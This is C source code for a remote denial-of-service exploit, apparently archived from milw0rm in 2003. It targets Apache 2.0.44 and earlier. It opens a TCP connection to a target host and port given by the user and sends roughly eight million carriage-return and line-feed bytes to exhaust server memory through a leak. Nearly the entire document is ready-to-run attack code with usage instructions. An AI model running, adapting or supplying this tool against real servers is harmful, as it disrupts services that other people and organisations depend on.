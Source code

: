 EXP
---

    /******** th-apachedos.c ********************************************************
    * *
    * Remote Apache DoS exploit *
    * ------------------------- *
    * Written as a poc for the: *
    *
    * This program sends 8000000 \n's to exploit the Apache memory leak. *
    * Works from scratch under Linux, as opposed to apache-massacre.c . *
    *
    *
    * Daniel Nyström <exce@netwinder.nu> *
    *
    * - www.telhack.tk - *
    *
    ******************************************************** th-apachedos.c ********/

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <errno.h>
    #include <sys/types.h>
    #include <netinet/in.h>
    #include <netdb.h>
    #include <sys/socket.h>


    int main(int argc, char *argv[])
    {
    int sockfd;
    int count;
    char buffer[8000000];
    struct sockaddr_in target;
    struct hostent *he;

    if (argc != 3)
    {
    fprintf(stderr, "\nTH-apachedos.c - Apache <= 2.0.44 DoS exploit.");
    fprintf(stderr, "\n----------------------------------------------");
    fprintf(stderr, "\nUsage: %s <Target> <Port>\n\n", argv[0]);
    exit(-1);
    }

    printf("\nTH-Apache DoS\n");
    printf("-------------\n");
    printf("-> Starting...\n");
    printf("->\n");

    // memset(buffer, '\n', sizeof(buffer)); /* testing */

    for (count = 0; count < 8000000;)
    {
    buffer[count] = '\r'; /* 0x0D */
    count++;
    buffer[count] = '\n'; /* 0x0A */
    count++;
    }

    if ((he=gethostbyname(argv[1])) == NULL)
    {
    herror("gethostbyname() failed ");
    exit(-1);
    }

    memset(&target, 0, sizeof(target));
    target.sin_family = AF_INET;
    target.sin_port = htons(atoi(argv[2]));
    target.sin_addr = *((struct in_addr *)he->h_addr);

    printf("-> Connecting to %s:%d...\n", inet_ntoa(target.sin_addr), atoi(argv[2]));
    printf("->\n");

    if ((sockfd=socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)) < 0)
    {
    perror("socket() failed ");
    exit(-1);
    }

    if (connect(sockfd, (struct sockaddr *)&target, sizeof(struct sockaddr)) < 0)
    {
    perror("connect() failed ");
    exit(-1);
    }

    printf("-> Connected to %s:%d... Sending linefeeds...\n", inet_ntoa(target.sin_addr),
    atoi(argv[2]));
    printf("->\n");

    if (send(sockfd, buffer, strlen(buffer), 0) != strlen(buffer))
    {
    perror("send() failed ");
    exit(-1);
    close(sockfd);
    }


    close(sockfd);

    printf("-> Finished smoothly, check hosts apache...\n\n");
    }

    // milw0rm.com [2003-04-11]
